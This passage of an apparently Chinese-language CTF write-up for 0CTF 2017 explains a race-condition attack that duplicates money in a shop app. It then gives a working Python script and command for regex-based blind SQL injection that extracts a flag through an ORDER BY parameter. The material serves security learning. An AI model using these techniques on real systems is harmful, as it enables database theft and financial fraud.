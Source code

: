 Login请求用于查询到用户名和钱包余额，goods请求用于查询用户有多少物品

假设login访问的是wallet数据库，goods访问的是goods数据库。

操作：

1. 登陆：创建session，访问两个数据库，将信息保存在session中

2. 买入：查询wallet数据库，查询goods数据库，update goods数据库，update wallet数据库

3. 卖出：查询wallet数据库，查询goods数据库，update wallet数据库，update goods数据库

攻击流程

1. Cookie1登录，获得钱0和物品信息1，保存在session中
2. Cookie2登录，获得钱0和物品信息1，保存在session中
3. Cookie1进行卖出，在cookie1用户更新wallet表后，更新goods表前，cookie2用户进行卖出。此时，cookie2看到的wallet钱已经变多，而goods数量还没减少，刷钱成功。

### 用正则获得数据

> 这是学习一个日本小哥的WP学习到的思路，颠覆了我对sql盲注的概念

[https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html](https://st98.github.io/diary/posts/2017-03-20-0ctf-2017-quals.html)

payload如下

```python
import requests
import sys

def check(s):
  if 'WAF' in s:
    raise Exception('WAF~><')
  if 'login plz' in s:
    raise Exception('login plz~><')
  return 'suc' in s

url = 'http://202.120.7.197/app.php?action=search&keyword=_&order=cot(if((%s)regexp(0x%s),1,0))'

print url % (sys.argv[1], sys.argv[2].encode('hex'))
print check(requests.get(url % (sys.argv[1], sys.argv[2].encode('hex')), cookies={
  'PHPSESSID': 'xxx'
}).content)
```

```
python2 s.py "select(substr(flag,4,1))from(ce63e444b0d049e9c899c9a0336b3c59)" "[a-z]"
```

这样就能依次通过正则获得数据了,姿势非常优雅

![rce](https://moxiaoxi.info/img/post/0ctf/rce.png)



## simplesqlin
